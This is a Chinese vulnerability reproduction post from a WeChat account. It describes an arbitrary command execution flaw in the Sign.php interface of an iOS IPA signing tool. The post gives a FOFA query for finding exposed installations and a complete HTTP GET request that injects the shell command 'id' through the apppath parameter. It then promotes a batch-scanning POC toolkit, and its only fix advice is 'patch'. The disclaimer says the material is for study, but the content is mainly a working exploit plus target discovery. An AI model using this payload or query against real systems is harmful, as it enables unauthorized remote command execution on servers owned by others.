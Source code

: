 #  苹果IOS端IPA签名工具Sign.php接口存在任意命令执行漏洞 附POC   
2024-11-10更新  南风漏洞复现文库   2024-11-10 23:42  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 苹果IOS端IPA签名工具简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
苹果IOS端IPA签名工具  
## 2.漏洞描述  
  
苹果IOS端IPA签名工具Sign.php接口存在任意命令执行漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
苹果IOS端IPA签名工具  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3a2eQL8pXicxib2tRU0rMYLj3W5RE4QMOEsDnHUpM4rvgFibe51Gc8XphlJmoWOU4IVzaY5moFrNC4Tw/640?wx_fmt=png&from=appmsg "null")  
  
苹果IOS端IPA签名工具Sign.php接口存在任意命令执行漏洞  
## 4.fofa查询语句  
  
body="/assets/index/css/mobileSelect.css"  
## 5.漏洞复现  
  
漏洞链接：https://xxx.xx.xx.xxx/api/sign/sign?udidres[0][sjskg]=1&noinject[name]=a&ttname=1&udid=1&appname=1&appid=a&appicon=1&apppath=|id>2.txt|&p12path=1&mppath=1&appbid=1&ipaPath=1&gm=0&filesPath=1&rm=1&app_name=1  
  
漏洞数据包：  
```
GET /api/sign/sign?udidres[0][sjskg]=1&noinject[name]=a&ttname=1&udid=1&appname=1&appid=a&appicon=1&apppath=|id>2.txt|&p12path=1&mppath=1&appbid=1&ipaPath=1&gm=0&filesPath=1&rm=1&app_name=1 HTTP/1.1
Host: xxx.xx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a2eQL8pXicxib2tRU0rMYLj3W8dzOwZ8FzFicS5eqxWuOGn1jVqNWUp4FRlAf2zeHCKzDgd9C6IgncQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a2eQL8pXicxib2tRU0rMYLj3ib6K38jLzJ8mXEvtta9NTt1ySLl0ialUrUSk55QoWNEUsTdiaaan5ianRA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a2eQL8pXicxib2tRU0rMYLj3z3EOlPpOX0kILPOE0PyYWiap92Ww19ZCFpRuCE9QKOtnqISm8jEkVXA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a2eQL8pXicxib2tRU0rMYLj3JE2FkDx0icibvXepM6mvdFJjvFH6OM4B1pghZj6iauLIsFIyAoK90hquw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a2eQL8pXicxib2tRU0rMYLj3Yq5TCoytLK9ONW3t9yh0BmnZOhEgDHibbul07ibC6ibkYdEPtVicicdDVIQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a2eQL8pXicxib2tRU0rMYLj3Oe5xNqQCc7Z4uIrcSKsUgZWFIpBzB8ibQ1lWgibcWxAhFAzAAnFZcZow/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[WordPress Time Clock插件存在远程代码执行漏洞CVE-2024-9593 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487724&idx=1&sn=bc4ff16c25b5f725c98a97a4467bfe2f&chksm=974b9deba03c14fdf3b8211c78d4d6a2b68e420ccbdd16d2a10c9988fc9381d40bc9b683ed0d&scene=21#wechat_redirect)  
  
  
  
  
